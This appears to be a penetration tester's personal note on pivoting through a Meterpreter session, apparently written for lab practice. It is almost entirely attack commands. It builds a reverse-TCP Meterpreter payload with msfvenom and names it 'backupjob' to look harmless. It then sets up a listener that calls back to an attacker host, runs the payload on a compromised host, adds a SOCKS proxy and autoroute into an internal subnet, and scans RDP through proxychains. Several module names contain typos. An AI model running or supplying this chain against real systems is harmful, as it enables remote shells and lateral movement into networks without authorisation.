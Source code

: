 bg-- -
Pivot through meterpreter **not** SSH.
### Create Payload
Make a meterpreter payload that will be executed on pivot host
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=9001 -f elf -o backupjob
```
Then, [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot host
### Start Listener
```bash
msfconsole
use muli/handler
set lhost 0.0.0.0
set lport 9001
set payload linux/x64/meterpreter/reverse_tcp
run
```
### Run payload
First, [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot host
```bash
chmod +x backupjob
./backupjob
```
### Setup MSF SOCKS Proxy
```bash
# setup
use auxiliary/server/socks_proxy
set srvport 9050
set srvhost 0.0.0.0
set version 4a
run

# confirm proxy server is running
jobs

# make sure one of the following is at the end of /etc/proxychains.conf
socks4 127.0.0.1 9050
socks5 127.0.0.1 9050

# Create routes with autoroute, either will work
use post/mulit/manage/autoroute
set session 1
set subnet 172.16.5.0
run

# alternatively, from meterpreter shell, run:
run autoroute -s 172.16.5.0/23

# confirm routes were set, from meterpreter shell:
run autorun -p
```
### Use proxychains
You can now use proxychains to send your traffic through the meterpreter session
```bash
sudo proxychains nmap 172.16.5.19 -p 3389 -sT -v -Pn
```